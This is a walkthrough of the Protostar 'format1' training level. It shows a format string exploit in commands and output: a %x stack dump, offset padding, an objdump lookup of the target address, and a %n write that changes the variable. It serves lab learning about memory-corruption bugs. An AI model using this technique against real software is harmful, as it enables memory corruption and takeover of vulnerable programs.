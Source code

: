 In this level we have to overwrite a global variable `target` with any value. First we need to find the address of our input on the stack. 
We can use a piece of string that is easy to look for (like "AAAAAAAA") and dump a piece of the stack with `%x` format strings:

```
user@protostar:/opt/protostar/bin$ ./format1 `python -c "print 'AAAAAAAA' + '%x.'*200"`
```

Once we are able to identify our input (41414141) in this hex dump, we can try to adjust the payload to hit a precise possition:

```
user@protostar:/opt/protostar/bin$ ./format1 `python -c "print 'AAAAAAAA' + '%x.'*128"`
AAAAAAAA804960c.bffff668.8048469.b7fd8304.b7fd7ff4.bffff668.8048435.bffff831.b7ff1040.804845b.b7fd7ff4.8048450.0.bffff6e8.b7eadc76.2.bffff714.bffff720.b7fe1848.bffff6d0.ffffffff.b7ffeff4.804824d.1.bffff6d0.b7ff0626.b7fffab0.b7fe1b28.b7fd7ff4.0.0.bffff6e8.105f6e4e.3a0bf85e.0.0.0.2.8048340.0.b7ff6210.b7eadb9b.b7ffeff4.2.8048340.0.8048361.804841c.2.bffff714.8048450.8048440.b7ff1040.bffff70c.b7fff8f8.2.bffff827.bffff831.0.bffff9ba.bffff9c8.bffff9d3.bffff9f4.bffffa07.bffffa11.bfffff01.bfffff3f.bfffff53.bfffff6a.bfffff7b.bfffff83.bfffff93.bfffffa0.bfffffd4.bfffffe0.0.20.b7fe2414.21.b7fe2000.10.78bf3ff.6.1000.11.64.3.8048034.4.20.5.7.7.b7fe3000.8.0.9.8048340.b.3e9.c.0.d.3e9.e.3e9.17.1.19.bffff80b.1f.bffffff2.f.bffff81b.0.0.0.43000000.c717d6c1.3b98f7d9.5d2de33f.697bf342.363836.0.2e000000.726f662f.3174616d.41414100
```

As we can see our input does not align properly, so we have to pad it a little bit. 
We can adjust the payload and stick a single `%x` to the end to see if we got it right:

```
user@protostar:/opt/protostar/bin$ ./format1 `python -c "print 'AAAAAAAA00' + '%x.'*127"`%x
AAAAAAAA00804960c.bffff668.8048469.b7fd8304.b7fd7ff4.bffff668.8048435.bffff830.b7ff1040.804845b.b7fd7ff4.8048450.0.bffff6e8.b7eadc76.2.bffff714.bffff720.b7fe1848.bffff6d0.ffffffff.b7ffeff4.804824d.1.bffff6d0.b7ff0626.b7fffab0.b7fe1b28.b7fd7ff4.0.0.bffff6e8.947fee7e.be2b786e.0.0.0.2.8048340.0.b7ff6210.b7eadb9b.b7ffeff4.2.8048340.0.8048361.804841c.2.bffff714.8048450.8048440.b7ff1040.bffff70c.b7fff8f8.2.bffff826.bffff830.0.bffff9ba.bffff9c8.bffff9d3.bffff9f4.bffffa07.bffffa11.bfffff01.bfffff3f.bfffff53.bfffff6a.bfffff7b.bfffff83.bfffff93.bfffffa0.bfffffd4.bfffffe0.0.20.b7fe2414.21.b7fe2000.10.78bf3ff.6.1000.11.64.3.8048034.4.20.5.7.7.b7fe3000.8.0.9.8048340.b.3e9.c.0.d.3e9.e.3e9.17.1.19.bffff80b.1f.bffffff2.f.bffff81b.0.0.0.6b000000.87c2a0a8.f580b5c9.a30e6569.69f7f8e0.363836.0.2f2e0000.6d726f66.317461.41414141
```

Now that we have the correct position we need to replace the "A"'s with the address of our `target` variable. 
We can find it with the objdump command:

```
user@protostar:/opt/protostar/bin$ objdump -t format1 | grep target
08049638 g     O .bss	00000004              target
user@protostar:/opt/protostar/bin$ 
```

After we insert our address (little endian) we can also replace the last `%x` with the `%n`. This modifier writes to the specified address instead of displaying the contents. Now we can pass this level:

```
user@protostar:/opt/protostar/bin$ ./format1 `python -c "print '\x38\x96\x04\x08AAAA00' + '%x.'*127"`%n
8�AAAA00804960c.bffff668.8048469.b7fd8304.b7fd7ff4.bffff668.8048435.bffff830.b7ff1040.804845b.b7fd7ff4.8048450.0.bffff6e8.b7eadc76.2.bffff714.bffff720.b7fe1848.bffff6d0.ffffffff.b7ffeff4.804824d.1.bffff6d0.b7ff0626.b7fffab0.b7fe1b28.b7fd7ff4.0.0.bffff6e8.aaa339a8.80f7afb8.0.0.0.2.8048340.0.b7ff6210.b7eadb9b.b7ffeff4.2.8048340.0.8048361.804841c.2.bffff714.8048450.8048440.b7ff1040.bffff70c.b7fff8f8.2.bffff826.bffff830.0.bffff9ba.bffff9c8.bffff9d3.bffff9f4.bffffa07.bffffa11.bfffff01.bfffff3f.bfffff53.bfffff6a.bfffff7b.bfffff83.bfffff93.bfffffa0.bfffffd4.bfffffe0.0.20.b7fe2414.21.b7fe2000.10.78bf3ff.6.1000.11.64.3.8048034.4.20.5.7.7.b7fe3000.8.0.9.8048340.b.3e9.c.0.d.3e9.e.3e9.17.1.19.bffff80b.1f.bffffff2.f.bffff81b.0.0.0.b8000000.ecbb7eda.506baaa7.48d611bb.69d839a6.363836.0.2f2e0000.6d726f66.317461.you have modified the target :)
``` 
